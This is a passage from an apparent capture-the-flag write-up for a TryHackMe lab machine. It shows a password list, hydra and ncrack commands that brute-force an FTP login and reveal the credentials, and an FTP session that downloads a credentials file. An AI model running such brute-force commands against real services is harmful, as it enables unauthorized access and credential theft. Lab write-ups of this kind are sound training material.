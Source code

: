 ```bash
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl

[REDACTED] - MORE
```

> **FTP Password Brute Force**
> 

`hydra -l ftpuser -P password_ftp_user.txt -t4 -f ftp://yearoftherabbit.thm`

```bash
[21][ftp] host: yearoftherabbit.thm   login: ftpuser   password: 5iez1wGXKfPKQ
```

`ncrack -u ftpuser -P password_ftp_user.txt ftp://yearoftherabbit.thm`

```bash
10.10.118.156 21/tcp ftp: 'ftpuser' '5iez1wGXKfPKQ'
```

> **FTP Connection**
> 

`ftp yearoftherabbit.thm -p 21`

```bash
Connected to yearoftherabbit.thm.
220 (vsFTPd 3.0.2)
Name (yearoftherabbit.thm:root): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||40890|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> mget *
mget Eli's_Creds.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||41974|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |*****************************************************************************************************|   758        2.11 MiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (2.10 KiB/s)
ftp> 
```
